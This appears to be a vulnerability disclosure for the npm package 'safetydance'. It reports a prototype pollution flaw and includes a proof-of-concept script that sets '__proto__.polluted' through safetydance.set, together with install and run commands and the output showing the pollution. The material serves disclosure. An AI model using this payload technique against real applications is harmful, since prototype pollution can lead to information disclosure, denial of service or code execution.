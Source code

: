 # Description

`safetydance` is vulnerable to `Prototype Pollution`.
This package allowing for modification of prototype behavior, which may result in Information Disclosure/DoS/RCE.


# Proof of Concept

1. Create the following PoC file:

```js
// poc.js
const safetydance = require('safetydance'); 
var obj = {}
console.log("Before : " + obj.polluted);
safetydance.set(obj,'__proto__.polluted','Yes! Its Polluted');
var obj1 ={}
console.log("After : " + obj1.polluted);
```

2. Execute the following commands in another terminal:

```bash
npm i safetydance # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
